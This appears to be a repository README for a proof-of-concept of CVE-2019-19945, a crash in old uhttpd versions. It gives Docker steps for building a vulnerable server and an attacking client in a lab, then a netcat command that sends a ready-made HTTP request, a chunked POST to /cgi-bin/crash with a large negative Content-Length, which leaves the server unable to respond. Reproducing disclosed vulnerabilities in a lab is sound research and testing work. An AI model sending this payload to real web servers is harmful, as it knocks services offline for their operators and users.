 # CVE-2019-19945_Test


This is the code for the first Proposed CVE

1. Install Docker 

2. Build & RUN Server
cd Server 
docker build  -t server/cve  .
docker run -d --name server -p 80:80 server/cve
4. Get Server Container IP
Linux
sudo docker container inspect server | grep -i IPAddress
Windows Powershell
docker container inspect server | Select-String "IPAddress"
Extract IP and add it to Command for building the Client
You can check the server by going to localhost:80 in your browser
5. Build & Run Client
by uncommenting the CMD in the Client/Dockerfile the attack will automatically start with the start of the container
cd ../Client/
docker build  --build-arg server_ip=<SERVER_IP> -t client/cve  .
docker run -d -p 8080:8080 client/cve
6. Attach to CLient Docker 
docker container ls
find client/cve container && attach
docker exec -it <ContainerID> /bin/sh
7. When Ready Launch Attack 
./crash.sh 
8. Server will be unable to respond




### Commented Source Code
There really is no use in providing commented Sourcecode as the Exploit is very short


The Exploit then consits of using Netcat  and sending a Post request with a negative large Content-Length to the Server Concering the handling of files in the cgi-bin/ directory

The Execution is conducted using a simple netcat script. Here Referencing a file in the CGI-bin Folder of the Server called Crash
nc <SERVER_IP>  < crash.poc 

##### crash.poc
POST /cgi-bin/crash HTTP/1.0
Transfer-Encoding: chunked
Content-Length: -100000  



The largest issue was trying to get the old versions of uhttpd to run in a up to date docker environment.





